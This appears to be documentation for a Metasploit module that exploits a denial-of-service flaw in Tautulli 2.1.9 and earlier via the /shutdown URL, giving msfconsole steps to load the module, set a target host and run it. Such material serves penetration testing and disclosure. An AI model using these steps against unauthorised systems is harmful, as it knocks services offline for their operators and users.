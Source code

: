 ## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Scenario

![72550314-80cd8a00-38a3-11ea-9bad-942668a29390](https://user-images.githubusercontent.com/15425071/72602337-29bdc880-3928-11ea-8aec-ddadb3ff4f2d.png)

## Verification Steps :

```
List the steps needed to make sure this thing works

1. Start ```msfconsole```
2. ```use auxiliary/dos/http/tautulli_shutdown_exec```
3. ```set RHOSTS XXX.XXX.XXX.XXX```
4. ```run```
```

